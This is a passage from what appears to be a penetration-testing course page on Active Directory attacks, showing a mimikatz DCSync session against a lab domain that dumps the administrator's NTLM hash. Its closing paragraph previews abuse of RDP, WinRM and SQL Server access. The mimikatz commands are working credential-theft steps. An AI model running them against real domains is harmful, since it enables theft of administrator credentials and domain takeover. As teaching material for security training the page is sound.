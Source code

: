 DCSync

```powershell-session
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d

<SNIP>
```

---

## Moving On

In the next section, we'll see some ways to enumerate and take advantage of remote access rights that may be granted to a user we control. These methods include Remote Desktop Protocol (RDP), WinRM (or PsRemoting), and SQL Server admin access.